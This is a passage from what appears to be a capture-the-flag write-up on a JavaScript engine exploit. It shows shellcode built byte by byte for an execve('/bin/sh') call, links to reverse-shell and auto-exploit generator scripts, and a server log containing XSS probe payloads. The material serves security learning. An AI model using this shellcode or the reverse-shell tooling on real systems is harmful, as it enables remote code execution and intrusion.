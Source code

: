 #### execve syscall

```python
## exceve syscall
make_double(asm('xor rdi,rdi'))
make_double(asm('push rdi'))
make_double(asm('push rdi'))
make_double(asm('pop rsi'))
make_double(asm('pop rdx'))

# execve single byte chain
make_double(asm("push 0x1337"))
make_double(asm("pop rdi; push rdi"))
make_double(asm("mov rdi, rsp;"))
make_double(asm("mov BYTE PTR [rdi], 0x2f"))
make_double(asm("mov BYTE PTR [rdi+0x1], 0x62"))
make_double(asm("mov BYTE PTR [rdi+0x2], 0x69"))
make_double(asm("mov BYTE PTR [rdi+0x3], 0x6e"))
make_double(asm("mov BYTE PTR [rdi+0x4], 0x2f"))
make_double(asm("mov BYTE PTR [rdi+0x5], 0x73"))
make_double(asm("mov BYTE PTR [rdi+0x6], 0x68"))
make_double(asm("mov BYTE PTR [rdi+0x7], 0x00"))

make_double(asm('push 0x3b'))
make_double(asm('pop rax'))
make_double(asm('syscall'))
```

- I modified this execve syscall part also, because we need to move byte by byte due to 6 byte restriction
- Fingers crossed, let's test this exploit

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024010637.png)

- After hours of debugging we finally got a shell

**Files used:**

- [gen_shellcode.py](https://gist.github.com/jopraveen/6f49466fdc38af6161cd2de3ce1ac586)
- [hex_to_fl.js](https://gist.github.com/jopraveen/ce5adea891f1b1149a19eb7300ccfd7c)
- [convertt.py](https://gist.github.com/jopraveen/b3a55a7a3c81b89e04b70b447f71c0a8)
- [rev_shell_localhost.js](https://gist.github.com/jopraveen/08a70e6015af4ccaa2cbcdadca1cf307)

- I also automated this process of exploit development, so you guys can give only IP and port, it will automatically generate the javascript exploit for you

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241024013903.png)

- [auto_pwn.py](https://gist.github.com/jopraveen/792decf87421d9c4dafebf66be348b4f)
- Just update the above code in the javascript exploit, everything will work perfectly!!


#### Testing the exploit in the challenge server

```js
127.0.0.1 - - [24/Oct/2024 02:59:51] "GET /?uname='-prompt(8)-' HTTP/1.1" 200 -
127.0.0.1 - - [24/Oct/2024 02:59:51] "GET /?msg='`"><<script>javascript:alert(1)</script> HTTP/1.1" 200 -
127.0.0.1 - - [24/Oct/2024 02:59:51] "GET /?id=<script>alert(1)</script> HTTP/1.1" 200 -
127.0.0.1 - - [24/Oct/2024 02:59:51] "GET /?name=<script>alert(1)</script> HTTP/1.1" 200
```

